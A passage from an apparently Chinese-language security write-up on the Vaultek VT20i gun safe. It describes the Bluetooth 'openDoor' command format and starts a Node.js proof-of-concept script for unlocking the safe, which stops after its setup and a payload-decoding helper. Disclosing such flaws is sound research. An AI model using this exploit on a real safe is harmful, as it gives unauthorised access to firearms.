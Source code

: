openDoor命令格式如下，其中前四个字节为认证代码：

[![](https://p1.ssl.qhimg.com/t010fbd91931370639e.png)](https://p1.ssl.qhimg.com/t010fbd91931370639e.png)

最简化的保险箱开启步骤如下所示：

[![](https://p5.ssl.qhimg.com/t0115442d4dc5dbd45f.png)](https://p5.ssl.qhimg.com/t0115442d4dc5dbd45f.png)



## PoC源码

下面给出的是可以用来打开Vaultek VT20i枪支保险箱的PoC源代码：

```
/*

Usage:

npm install noble

npm install split-buffer

node unlock.js

*/

var noble = require('noble');

var split = require('split-buffer');

var rawData = ["ThisIsWhere","TheRAWDataWouldGo"]

function d2h(d) `{`

    var h = (+d).toString(16);

    return h.length === 1 ? '0' + h : h;

`}`



function decodePayload(payload)`{`

    var res = new Array();

    for(var i=1;i&lt;payload.length-1;i=i+2)`{`

        var tmp;

        tmpA = payload[i]-97;

        tmpB = payload[i+1]-97;

        tmpC = (tmpA&lt;&lt;4) + tmpB;

        res.push(tmpC);

    `}`

    return res;

`}`
```